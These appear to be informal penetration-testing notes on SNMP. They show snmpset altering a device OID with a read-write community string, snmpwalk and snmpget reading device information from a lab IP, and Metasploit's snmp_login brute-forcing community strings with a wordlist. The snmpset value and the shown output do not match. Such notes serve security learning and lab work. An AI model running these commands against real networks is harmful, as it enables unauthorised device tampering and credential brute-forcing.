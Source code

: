 
## snmpset 
```
TYPE: one of i, u, t, a, o, s, x, d, b
        i: INTEGER, u: unsigned INTEGER, t: TIMETICKS, a: IPADDRESS
        o: OBJID, s: STRING, x: HEX STRING, d: DECIMAL STRING, b: BITS
        U: unsigned int64, I: signed int64, F: float, D: double
```

if we got rw string we can modify OIDs
```
$ snmpset -v1 -c test2 192.168.0.110 iso.3.6.1.2.1.1.6.0 s hackedmaboi
```

u can verify with **snmpwalk** command
```
$ snmpwalk -v1 -c test 192.168.0.110 | head -n 10                  
iso.3.6.1.2.1.1.1.0 = STRING: "Vyatta VC6.5R1"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.30803
iso.3.6.1.2.1.1.3.0 = Timeticks: (592391) 1:38:43.91
iso.3.6.1.2.1.1.4.0 = STRING: "root"
iso.3.6.1.2.1.1.5.0 = STRING: "vyatta"
iso.3.6.1.2.1.1.6.0 = STRING: "hacked"
iso.3.6.1.2.1.1.7.0 = INTEGER: 14
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.2.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
```

---

## snmpget

if u want to get specific OID value u can get it via **snmpget**

```
$ snmpget -v1 -c test2 192.168.0.110 iso.3.6.1.2.1.1.6.0  

iso.3.6.1.2.1.1.6.0 = STRING: "hacked"

```

---

## Metasploit
```
search snmp
```
gives lot of modules 

lets bruteforce for snmp community strings
try **snmp_login**
now set options
you can leave the default pass file as it is or u can mention rockyou.txt
after setting all the options ,
now **run barry run**
```
setg RHOSTS 192.168.0.110
set  STOP_ON_SUCCESS true
run
```
